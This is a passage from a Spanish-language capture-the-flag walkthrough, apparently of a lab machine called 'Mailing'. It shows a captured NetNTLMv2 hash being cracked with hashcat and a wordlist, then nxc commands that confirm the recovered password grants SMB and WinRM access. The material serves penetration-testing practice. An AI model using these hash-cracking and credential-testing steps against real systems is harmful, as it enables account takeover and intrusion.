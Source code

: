```bash
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:uwu)
[*] NetrGetShareInfo Level: 1
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:uwu)
[*] Closing down connection (10.10.11.14,51821)
[*] Remaining connections []
```

¡Es un hash NetNTLMv2! lo que verifica que el cliente de correo que usan es vulnerable a lo que hemos descubierto.

Ahora podemos proceder a intentar crackearlo, y por suerte es débil:

```bash
MAYA::MAILING:aaaaaaaaaaaaaaaa:ced0068bbcf94df21a475c4b89fc23a9:010100000000000080d88d57c600db01c3db1f616a3e3fb500000000010010004b005500640049004e00580069007900030010004b005500640049004e005800690079000200100043005500560054005600660049004a000400100043005500560054005600660049004a000700080080d88d57c600db0106000400020000000800300030000000000000000000000000200000911a248348edd202454d60353e850b59ed75673e3fd280241f2e61814eae66d40a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100360037000000000000000000:m4y4ngs4ri
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: MAYA::MAILING:aaaaaaaaaaaaaaaa:ced0068bbcf94df21a47...000000
Time.Started.....: Fri Sep  6 21:38:53 2024 (6 secs)
Time.Estimated...: Fri Sep  6 21:38:59 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1050.5 kH/s (1.28ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5933056/14344384 (41.36%)
Rejected.........: 0/5933056 (0.00%)
Restore.Point....: 5931008/14344384 (41.35%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: m6159 -> m4941342
Hardware.Mon.#1..: Temp: 67c Util: 78%

Started: Fri Sep  6 21:38:49 2024
Stopped: Fri Sep  6 21:39:00 2024
```

Este usuario existe en el sistema, y también tiene acceso por WinRM:

```bash
❯ nxc smb mailing.htb -u 'maya' -p 'm4y4ngs4ri'
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri 
❯ nxc winrm mailing.htb -u 'maya' -p 'm4y4ngs4ri'
WINRM       10.10.11.14     5985   MAILING          [*] Windows 10 / Server 2019 Build 19041 (name:MAILING) (domain:MAILING)
WINRM       10.10.11.14     5985   MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
```
